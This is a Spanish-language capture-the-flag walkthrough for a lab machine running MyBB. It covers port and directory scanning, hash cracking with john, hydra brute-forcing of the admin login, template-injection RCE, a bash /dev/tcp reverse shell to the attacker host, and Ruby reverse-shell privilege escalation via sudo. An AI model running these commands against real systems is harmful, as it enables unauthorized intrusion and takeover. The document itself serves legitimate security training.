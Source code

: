 # MÁQUINA MYBB

Lo primero que deberemos hacer será un escaneo de puertos, para ello usaremos el siguiente comando:

```shell
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

Vemos que unicamente tiene abierto el puerto 80, así que introducimos la IP en nuestro navegador y vemos lo siguiente:

![NAV](https://github.com/Isma-yo/photos/blob/main/MyBB/foto.png)

Cuando vamos al apartado de foro, vemos que no nos carga pero sin embargo nos da un nombre de dominio (tener cuidado que se carga como HTTPS y no como HTTP):

![NAV2](https://github.com/Isma-yo/photos/blob/main/MyBB/foto2.png)

Este dominio será el que deberemos de añadir al fichero /etc/hosts:

![DOM](https://github.com/Isma-yo/photos/blob/main/MyBB/foto3.png)

Vemos que ahora si nos carga la página, la inspeccionamos pero no encontramos nada fuera de lo común, así que deberemos de empezar a listar directorios, para ello usaremos el comando gobuster:

```shell
gobuster dir -u http://panel.mybb.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

Descubrimos que hay una carpeta con nombre “backups” por lo que procedemos a ver que hay dentro:

![INDEX](https://github.com/Isma-yo/photos/blob/main/MyBB/foto4.png)

Vemos que hay un archivo con nombre data que parece interesante, veamos que hay dentro:

![DIREC](https://github.com/Isma-yo/photos/blob/main/MyBB/foto5.png)

Encontramos un usuario alice y una contraseña la cuál parece estar hasheada. Para conocer la contraseña usaremos un ataque de fuerza bruta con la herramienta john y el diccionario rockyou.txt:

```shell
john -w=/usr/share/wordlists/rockyou.txt hash
```

![JOHN](https://github.com/Isma-yo/photos/blob/main/MyBB/foto6.png)

Sin embargo estas credenciales no nos permiten acceder al login, por lo que el siguiente paso será realizar una ataque de fuerza bruta contra la página de login usando el usuario admin que podemos ver que existe tanto en la propia web como en el fichero data que hemos encontrado.

Para el ataque primero interceptaremos la petición con BurpSuite y una vez ya tengamos los datos que necesitamos (usuario, contraseña y error) podemos ejecutar el ataque de fuerza bruta:

![BF](https://github.com/Isma-yo/photos/blob/main/MyBB/foto7.png)

Copiamos todo todo el contenido de la linea 16.

![HY](https://github.com/Isma-yo/photos/blob/main/MyBB/foto8.png)

Vemos que nos da muchas contraseñas como correctas, estas son falsos positivos. Para encontrar la contraseña correcta deberemos de ir probando una por una hasta encontrar la correcta, en esta caso la correcta es babygirl.

![MYBB](https://github.com/Isma-yo/photos/blob/main/MyBB/foto9.png)

Vemos que ya podemos acceder y que existe un apartado con nombre “Admin CP”:

![MYBB2](https://github.com/Isma-yo/photos/blob/main/MyBB/foto10.png)

Aquí podemos observar la versión de MyBB que estamos utilizando, ahora deberemos de investigar acerca de esta versión para ver que podemos encontrar.

Vemos que existe una vulnerabilidad que permite la inyección de código malicioso PHP a través de Templates, por lo que procederemos a explotarla a ver que conseguimos sacar:

https://blog.sorcery.ie/posts/mybb_acp_rce/

Tras seguir los pasos que se encuentran en la máquina vemos que si podemos ejecutar código malicioso:

![WWW](https://github.com/Isma-yo/photos/blob/main/MyBB/foto11.png)

Por lo que nos enviaremos una reverse shell:

```shell
'bash -c “bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261”'
```
![SH](https://github.com/Isma-yo/photos/blob/main/MyBB/foto12.png)

Una vez conectados tratamos la tty con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash 
```

No podemos ejecutar el comando sudo -l y con el comando find / -perm -4000 2>/dev/null no encontramos nada que podamos usar para la escalada de privilegios, así que intentamos convertimos en el usuario alice con la contraseña que obtuvimos de la página data y vemos que efectivamente podemos convertirnos en alice:

![AL](https://github.com/Isma-yo/photos/blob/main/MyBB/foto13.png)

Si ahora hacemos un sudo -l vemos que podemos ejecutar cualquier archivo que acabe en .rb dentro del directorio scripts, por lo que vamos a crear un script en nuestra máquina atacante que nos genere una reverse shell para poder conseguir esa escalada de privilegios que buscamos.

https://gtfobins.github.io/gtfobins/ruby/#reverse-shell

```shell
export RHOST=172.17.0.1
export RPORT=443
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

Una vez creado lo compartimos a la máquina víctima y le damos permiso de ejecución, lo ejecutamos con el usuario root mientras estamos en escucha desde nuestra máquina atacante y bingo, somos root.

![ROOT](https://github.com/Isma-yo/photos/blob/main/MyBB/foto14.png)



